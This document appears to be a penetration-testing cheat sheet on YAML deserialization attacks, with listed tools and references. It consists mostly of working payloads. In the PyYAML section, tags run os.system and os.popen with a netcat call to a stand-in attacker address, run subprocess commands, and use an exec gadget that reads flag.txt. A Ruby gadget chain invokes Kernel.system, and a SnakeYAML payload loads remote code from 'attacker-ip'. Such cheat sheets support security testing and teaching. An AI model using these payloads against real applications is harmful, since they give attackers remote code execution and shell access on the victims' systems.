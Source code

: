 # YAML Deserialization

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
    * [PyYAML](#pyyaml)
    * [ruamel.yaml](#ruamelyaml)
    * [Ruby](#ruby)
    * [SnakeYAML](#snakeyaml)
* [References](#references)

## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - A tiny project for generating SnakeYAML deserialization payloads
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller Security - Turning your data into code execution


## Exploit

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for ```load``` has been switched to SafeLoader mitigating the risks against Remote Code Execution.
[PR fixing the vulnerabily](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now ```yaml.unsafe_load``` and ```yaml.load(input, Loader=yaml.UnsafeLoader)```

```
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## References

- [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
- [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
- [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
- [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)